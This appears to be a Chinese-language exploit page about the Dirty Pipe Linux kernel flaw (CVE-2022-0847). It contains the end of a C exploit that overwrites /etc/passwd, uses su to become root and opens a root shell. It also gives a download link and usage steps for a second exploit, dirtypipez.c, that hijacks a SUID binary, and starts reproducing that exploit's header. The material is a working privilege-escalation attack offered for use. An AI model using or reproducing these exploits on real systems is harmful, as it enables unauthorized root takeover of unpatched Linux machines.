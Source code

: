 ```python
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, data_size);
	if (nbytes < 0) {
		perror("write failed");
		return EXIT_FAILURE;
	}
	if ((size_t)nbytes < data_size) {
		fprintf(stderr, "short write\n");
		return EXIT_FAILURE;
	}

	char *argv[] = {"/bin/sh", "-c", "(echo aaron; cat) | su - -c \""
                "echo \\\"Restoring /etc/passwd from /tmp/passwd.bak...\\\";"
                "cp /tmp/passwd.bak /etc/passwd;"
                "echo \\\"Done! Popping shell... (run commands now)\\\";"
                "/bin/sh;"
            "\" root"};
        execv("/bin/sh", argv);

        printf("system() function call seems to have failed :(\n");
	return EXIT_SUCCESS;
}
```


## EXP-2
下载地址：[https://haxx.in/files/dirtypipez.c](https://haxx.in/files/dirtypipez.c)

使用方法：
```python
gcc dirtypipez.c -o exp                     # 编译文件
find / -user root -perm -4000 2>/dev/null   # 查找具有suid权限的可执行文件
./exp /usr/bin/....                         # ...为具有suid权限的可执行文件
```

dirtypipez.c
```python

// https://haxx.in/posts/pwning-tipc/
// dirtypipez.c
//
// hacked up Dirty Pipe (CVE-2022-0847) PoC that hijacks a SUID binary to spawn
// a root shell. (and attempts to restore the damaged binary as well)
//
// Wow, Dirty CoW reloaded!
//
// -- blasty <peter@haxx.in> // 2022-03-07

/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
```